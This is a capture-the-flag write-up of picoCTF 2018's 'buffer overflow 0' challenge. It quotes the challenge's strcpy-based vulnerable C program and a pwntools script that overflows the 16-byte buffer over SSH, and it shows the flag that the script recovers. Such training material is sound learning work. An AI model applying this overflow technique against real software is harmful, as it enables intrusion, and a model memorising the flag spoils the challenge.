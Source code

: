# Binary Exploitation

### **buffer overflow 0 - Points: 150**

> Let's start off simple, can you overflow the right buffer in this [program](https://2018shell.picoctf.com/static/bacf5fae929ccfce6eacdc51cfad3031/vuln) to get the flag? You can also find it in /problems/buffer-overflow-0\_3\_d5263c5219b334339c34ac35c51c4a17 on the shell server. [Source](https://2018shell.picoctf.com/static/bacf5fae929ccfce6eacdc51cfad3031/vuln.c).  
> Hint:   
> How can you trigger the flag to print?  
> If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

vuln.c contents:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];  strcpy(buf, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  if (argc > 1) {    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }  else
    printf("This program takes 1 argument.\n");
  return 0;}
```

One way was to run the program and pass a really long \(supposedly at least 28 bytes\) string and it will print the flag on the server. Another method I wanted to use was pwntool because it gave me an opportunity to learn about the this popular program.

```c
from pwn import *

username = "tokumeipoh"

input = 'a' * 28

connection = ssh(host="2018shell.picoctf.com", user=username, password="{password}")

py = connection.run("cd /problems/buffer-overflow-0_3_d5263c5219b334339c34ac35c51c4a17; ./vuln {}".format(input))

print(py.recv())
connection.close()
```

Shell results:

```text
poh@pohSurface:/mnt/d/pradagy/projects/ctf/pico2018/buffer overflow 0$ python3 try.py 
[+] Connecting to 2018shell.picoctf.com on port 22: Done
[*] tokumeipoh@2018shell.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Starting remote process '/bin/bash' on 2018shell.picoctf.com: pid 130175
b'picoCTF{ov3rfl0ws_ar3nt_that_bad_2d11f6cd}\n'
[*] Stopped remote process 'bash' on 2018shell.picoctf.com (pid 130175)
```

